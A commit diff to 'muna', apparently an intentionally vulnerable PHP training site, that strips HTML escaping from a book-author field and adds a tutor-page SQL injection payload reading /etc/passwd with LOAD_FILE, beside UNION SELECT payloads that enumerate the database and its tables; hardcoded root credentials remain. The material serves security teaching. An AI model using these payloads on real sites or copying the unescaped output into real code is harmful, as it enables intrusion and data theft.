

Before and after one commit to saulmamani/muna, a PHP site: page /tutor/tutor_perfil.html in a window 1280 px wide. Shown: the part 391-2289 px from the top of the page at 70% size. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
primera version beta

```diff
--- a/conexion.inc
+++ b/conexion.inc
@@ -1,12 +1,13 @@
 <?php
-	error_reporting(E_ALL ^E_NOTICE ^E_WARNING ^E_DEPRECATED);
+
+error_reporting(E_ALL ^E_NOTICE ^E_WARNING ^E_DEPRECATED);
 
 	function conectar()
 	{
 	 	$servidor = "localhost";
 		$cuenta = "root";
 		$password = "root";
-		$database = "malditawebd";
+		$database ="malditawebd";
 
 		$conexion = mysql_connect($servidor,$cuenta,$password);
 		mysql_select_db($database,$conexion);
@@ -17,3 +18,4 @@
 	{
            mysql_close($cadcon);
 	}
+?>
--- a/libros.php
+++ b/libros.php
@@ -60,8 +60,8 @@
                 <tr>
                     <td><?php echo utf8_encode($f['IdLibro']); ?></td>
                     <td><?php echo htmlentities(utf8_encode($f['Titulo'])); ?></td>
-                    <td><?php echo htmlentities(utf8_encode($f['Autor'])); ?></td>
-                    <!--Seguridad: Escapando las salidas para evitar SQL inyecciones XSS-->
+                    <td><?php echo (utf8_encode($f['Autor'])); ?></td>
+                    <!--Seguridad: Escapando las salidas para evitar SQL inyecciones XSS, escriba la funcion htmlentities-->
                     <td><?php echo utf8_encode($f['Descripcion']); ?></td>
                     <td><a href="detalleLibro.php?idLibro=<?php echo $f['IdLibro']; ?>">descargar</a></td>
                 </tr>
--- a/nuevoController.php
+++ b/nuevoController.php
@@ -1,10 +1,4 @@
 <?php
-
-/*
- * To change this license header, choose License Headers in Project Properties.
- * To change this template file, choose Tools | Templates
- * and open the template in the editor.
- */
 
     $cuenta = (!isset($_POST['txtCuenta']))?'':$_POST['txtCuenta'];
     $clave = (!isset($_POST['txtClave']))?'':$_POST['txtClave'];
--- a/tutor/tutor_perfil.html
+++ b/tutor/tutor_perfil.html
@@ -43,6 +43,11 @@ and open the template in the editor.
           <p>Recuperamos el nombre de la base de datos que está usando la aplicación web.</p>
           <p>http://.../muna/perfil.php?id=-1 UNION SELECT 1,2,DATABASE(),4,5,6 </p>
           <hr/>
+
+          <p>Podemos filtrar un archivo del servidor /etc/passwd.</p>
+          <p>http://.../muna/perfil.php?id=-1 union all select 1,2,3,(SELECT LOAD_FILE("/etc/passwd") ),5,6</p>
+          <hr/>
+
           Recupermos las tablas que tiene la base de datos..
           <p>http://.../muna/perfil.php?id=-1 UNION SELECT 1,2,group_concat(TABLE_NAME),4,5,6 from information_schema.tables where TABLE_SCHEMA = DATABASE() </p>
           <hr/>
```
